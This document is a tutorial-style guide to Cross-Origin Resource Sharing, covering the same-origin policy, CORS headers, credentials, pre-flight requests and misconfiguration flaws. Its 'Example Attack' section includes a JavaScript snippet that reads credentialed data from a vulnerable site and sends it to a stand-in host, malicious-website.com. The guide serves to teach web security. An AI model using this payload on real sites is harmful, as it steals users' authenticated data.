 # Cross-Origin Resource Sharing (CORS) Guide

Cross-Origin Resource Sharing (CORS) is a browser mechanism that allows controlled access to resources located outside of a given domain. It extends the same-origin policy (SOP), adding flexibility but also potential vulnerabilities if not configured correctly.

## Understanding CORS

CORS modifies the SOP by enabling web pages to request resources from different domains using a set of HTTP headers that define trusted origins and permissions.

### Same-Origin Policy (SOP)

The SOP is a security measure that restricts web pages from interacting with resources from a different origin. An origin is defined by the scheme, domain, and port. Here’s how SOP works with different URLs:

- **Example URL**: `http://normal-website.com/example/example.html`
  - **Access within the same domain**:
    - `http://normal-website.com/example/`: Yes
    - `http://normal-website.com/example2/`: Yes
  - **Access across different schemes or ports**:
    - `https://normal-website.com/example/`: No

### CORS Headers and Requests

- **Access-Control-Allow-Origin (ACAO)**: This header in the response specifies which domains are allowed to access the resource.
  - **Example**:
    - Request from `https://normal-website.com` to `https://robust-website.com/data` might receive:
      ```
      Access-Control-Allow-Origin: https://normal-website.com
      ```

### CORS with Credentials

- Servers can allow requests with credentials (like cookies) by setting `Access-Control-Allow-Credentials: true`.
- **Example**:
  - A request with credentials from `https://normal-website.com` receives:
    ```
    Access-Control-Allow-Credentials: true
    ```

### Handling Wildcards

- The ACAO header can specify `*` to allow all domains, which is considered insecure when combined with credentials.

### Pre-flight Requests

- For complex requests (using methods like PUT or DELETE, or custom headers), the browser sends a pre-flight request using the OPTIONS method to ensure safety before sending the actual request.

### Vulnerabilities from Poor CORS Configurations

- Misconfigured CORS can allow unauthorized access, especially when ACAO reflects a wide range of origins or uses unsafe wildcards.
- **Example Attack**:
  - Using JavaScript to exploit a CORS misconfiguration to extract sensitive data:
    ```javascript
    var req = new XMLHttpRequest();
    req.onload = function() { location='//malicious-website.com/log?key='+this.responseText; };
    req.open('get', 'https://vulnerable-website.com/sensitive-data', true);
    req.withCredentials = true;
    req.send();
    ```

### Special Cases and Bypasses

- **Null Origin Handling**: Some servers whitelist `null` which can be exploited in various scenarios.
- **Domain Matching Issues**: Inadequate validation might allow attackers to register similar-looking domains to bypass restrictions.

## CORS and XSS Vulnerabilities

Correct CORS configuration does not guard against XSS, where a trusted but vulnerable site can be exploited to steal data via CORS.

## Example Scenarios

- **Breaking TLS through CORS**: Allowing CORS requests to a domain over HTTP can lead to man-in-the-middle attacks.
  - Attack involves redirecting to an HTTP page which then makes a CORS request to the secure site, tricking it into revealing sensitive information.
